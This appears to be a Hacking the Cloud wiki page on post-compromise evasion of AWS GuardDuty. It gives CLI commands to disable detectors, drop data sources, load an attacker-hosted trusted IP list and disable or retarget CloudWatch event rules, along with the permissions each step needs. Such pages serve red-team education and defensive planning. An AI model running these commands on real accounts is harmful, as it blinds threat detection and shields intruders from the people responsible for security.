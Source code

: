 ```yaml
---
author: Ben Leembruggen
title: Modify GuardDuty Configuration
description: Modify existing GuardDuty configurations in the target account to hinder alerting and remediation capabilities.
enableEditBtn: true
editBaseURL: https://github.com/Hacking-the-Cloud/hackingthe.cloud/blob/main/content
---
```


Where an account has been successfully compromised, an attacker can modify threat detection services like GuardDuty to reduce the likelihood of their actions triggering an alert.  Whilst outright deleting services can trigger alerts, modifying key attributes of these services is less likely to raise alerts and can render them close to useless depending on the scenario.  The actions available to an attacker will largely depend on the compromised permissions available to the attacker, the AWS service architecture and the presence of higher level controls like Service Control Policies. 

## GuardDuty
Where GuardDuty uses a delegated admin or invite model, features like detector configurations and IP Trust lists are centrally managed, and so only able to be modified in the GuardDuty administrator account.  Where this is not the case, these features can be modified in the account that GuardDuty is running in.

---
### Misconfiguring the Detector
An attacker could modify an existing GuardDuty detector in the account, to remove logs sources or lessen its effectiveness.

Configuration changes may include a combination of:
- Disabling the detector altogether.
- Removing Kubernetes and s3 as data sources, which removes all [S3 Protection](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_finding-types-s3.html) and [Kubernetes alerts](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_finding-types-kubernetes.html).
- Increasing the event update frequency to 6 hours, as opposed to as low as 15 minutes.


#### Required Permissions to execute:
- guardduty:ListDetectors
- guardduty:UpdateDetector

Example CLI commands
```
# Disabling the detector
aws guardduty update-detector \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --no-enable 

# Removing s3 as a log source
aws guardduty update-detector \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --data-sources S3Logs={Enable=false}

# Increase finding update time to 6 hours
aws guardduty update-detector \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --finding-publishing-frequency SIX_HOURS
```
---
### Modifying Trusted IP Lists
An attacker could create or update GuardDuty's [Trusted IP list](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_upload-lists.html), including their own IP on the list.  Any IPs in a trusted IP list will not have any Cloudtrail or VPC flow log alerts raised against them. 

<i> DNS findings are exempt from the Trusted IP list </i>

#### Required Permissions to execute:
- guardduty:ListDetectors
- guardduty:ListIPSet
- iam:PutRolePolicy
- guardduty:CreateIPSet (To create new list)
- guardduty:UpdateIPSet (To update an existing list)

<i> Depending on the level of stealth required, the file can be uploaded to an s3 bucket in the target account, or an account controlled by the attacker. </i>


Example CLI commands
```
aws guardduty update-ip-set \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --ip-set-id 24adjigdk34290840348exampleiplist \
    --location https://malicious-bucket.s3-us-east-1.amazonaws.com/customiplist.csv \
    --activate
```

---
### Modify Cloudwatch events rule
GuardDuty populates its findings to Cloudwatch Events on a 5 minute cadence.  Modifying the Event pattern or Targets for an event  may reduce GuardDuty's ability to alert and auto-remediate findings, especially where the remediation is triggered in a member account; as GuardDuty administrator protections do not extend to the Cloudwatch events in the member account. 

!!! Note  
In a delegated or invitational admin GuardDuty architecture, cloudwatch events will still be created in the admin account.

#### Required Permissions to execute:
- event:ListRules
- event:ListTargetsByRule
- event:PutRule
- event:RemoveTargets

Example CLI commands
```
# Disable GuardDuty Cloudwatch Event
aws events put-rule --name guardduty-event \
--event-pattern "{\"source\":[\"aws.guardduty\"]}" \
--state DISABLED

# Modify Event Pattern
aws events put-rule --name guardduty-event \
--event-pattern '{"source": ["aws.somethingthatdoesntexist"]}'

# Remove Event Targets
aws events remove-targets --name guardduty-event \
--ids "GuardDutyTarget"
```